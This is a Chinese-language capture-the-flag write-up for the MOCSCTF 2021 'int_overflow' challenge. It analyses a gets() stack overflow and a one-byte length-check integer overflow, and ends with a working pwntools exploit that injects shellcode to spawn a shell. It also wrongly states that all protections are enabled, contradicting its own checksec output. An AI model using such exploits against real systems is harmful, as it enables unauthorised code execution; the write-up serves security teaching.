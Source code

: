 ```yaml
---
Author : Mark0519
https://github.com/JamesHoi/MOCSCTF-2021/tree/main
---
```


# int_overflow

## 题目分析

### 1.checksec分析

使用checksec命令分析，得知此题所有保护均为开启：

`````shell
 mark0519:~/Desktop$  checksec int_overflow
 Arch:     i386-32-little
 RELRO:    Partial RELRO
 Stack:    No canary found
 NX:       NX disabled
 PIE:      No PIE (0x8048000)
 RWX:      Has RWX segments
`````

且ELF文件为32位，使用IDApro32位打开

### 2.源码分析

使用IDApro32位打开后，找到main函数后用F5反汇编得到伪C代码

几个主要函数反汇编的结果如下：

````c
//main()函数
int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("##### Welcome to MOCSCTF #####");
  puts("Plz input your passwd:");
  validate_passwd();
  return 0;
}
````

````c
//validate_passwd()函数
int validate_passwd()
{
  char s; // [esp+Dh] [ebp-3Bh]
  unsigned __int8 v2; // [esp+3Fh] [ebp-9h]

  gets(&s);
  v2 = strlen(&s);
  return check(v2, &s);
}
````

````c
//check()函数
char *__cdecl check(int a1, char *src)
{
  if ( (unsigned __int8)a1 <= 3u || (unsigned __int8)a1 > 8u )
    return (char *)puts("bad!");
  puts("good!");
  return strcpy(passwd_buf, src);
}
````

阅读源码得知：

此文件主要功能为：

输入一段passwd，如果passwd的长度大于4或者小于等于8，则输出``good！``，并且把passwd复制给passwd_buf，否则输出``bad！``

**但代码中存在整数溢出的漏洞**

在validate_passwd()函数中，通过strlen函数获取输入的passwd的长度，并将长度赋值给v2。

但是v2的数据类型为``unsigned __int8 ``,即单字节无符号数，即只能表示0~255这256个数（二进制的0000 0000 到1111 1111），如果超出255，则发生整数溢出。

简单来说，如果将255+5 = 260赋值给v2（v2 = 260），则在c程序运行中将其当作 5 处理。

具体整数溢出见ctfwiki：https://ctf-wiki.org/pwn/linux/integeroverflow/intof/

**同时存在栈溢出漏洞**

在输入时，程序所用的是gets函数，它从不检查输入字符串的长度，而是以回车来判断输入是否结束，所以很容易可以导致栈溢出。

> 历史上，**莫里斯蠕虫**第一种蠕虫病毒就利用了 gets 这个危险函数实现了栈溢出。

这里我们输入s时，由IDApro的反汇编````char s; // [esp+Dh] [ebp-3Bh]````得知，s距离ebp只有0x3b个字节，我们只要覆盖0x3b+4个字节，即可覆盖返回地址（+4是应为载覆盖一个ebp），从而达到劫持控制流的目的。

具体栈溢出原理见ctfwiki：https://ctf-wiki.org/pwn/linux/stackoverflow/stackoverflow-basic/

### 3.攻击思路

我们可以通过输入passwd时，利用栈溢出劫持控制流。

而整数溢出允许我们输入更多的字符，且将字符复制到了passwd_buf处，在保护都未开的情况下，passwd_buf所在的.bss段拥有执行权限。（也可通过gdb调试得知）故我们可以劫持控制流到passwd_buf处，执行我们所写的程序，进而拿到shell。

````shell
#gdb调试内容
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/sjj/Desktop/int_overflow
 0x8049000  0x804a000 r-xp     1000 0      /home/sjj/Desktop/int_overflow
 0x804a000  0x804b000 rwxp     1000 1000   /home/sjj/Desktop/int_overflow
0xf7ddb000 0xf7fb0000 r-xp   1d5000 0      /lib/i386-linux-gnu/libc-2.27.so
0xf7fb0000 0xf7fb1000 ---p     1000 1d5000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb1000 0xf7fb3000 r-xp     2000 1d5000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb3000 0xf7fb4000 rwxp     1000 1d7000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb4000 0xf7fb7000 rwxp     3000 0      
0xf7fd0000 0xf7fd2000 rwxp     2000 0      
0xf7fd2000 0xf7fd5000 r--p     3000 0      [vvar]
0xf7fd5000 0xf7fd6000 r-xp     1000 0      [vdso]
0xf7fd6000 0xf7ffc000 r-xp    26000 0      /lib/i386-linux-gnu/ld-2.27.so
0xf7ffc000 0xf7ffd000 r-xp     1000 25000  /lib/i386-linux-gnu/ld-2.27.so
0xf7ffd000 0xf7ffe000 rwxp     1000 26000  /lib/i386-linux-gnu/ld-2.27.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
````

具体过程：

1.将一段i386的shellcode输入进passwd。

2.将shellcode不足0x3b+4位的部分用任意字符补齐。  

3.将passwd_buf的地址打包成32位（占4个字节）发送，覆盖返回地址。

4.为满足check函数的条件，制造整数溢出，再在后面补上255 + 6 - 4 -（0x3b+4）= 194 个字节 ，这样v2=6满足条件。

5.getshell

## exp

````python
from pwn import *

p = process('./int_overflow')
#p = remote('ip','port')
context.log_level = 'debug'

passwd_buf_addr = 0x0804A060 
shellcode = shellcraft.i386.sh()

p.recvuntil("wd:\n")     
payload = asm(shellcode).ljust(0x3b+4,'a')+p32(passwd_buf_addr)+'a'*194  #63+4+194=261
p.send(payload)
p.interactive()
````

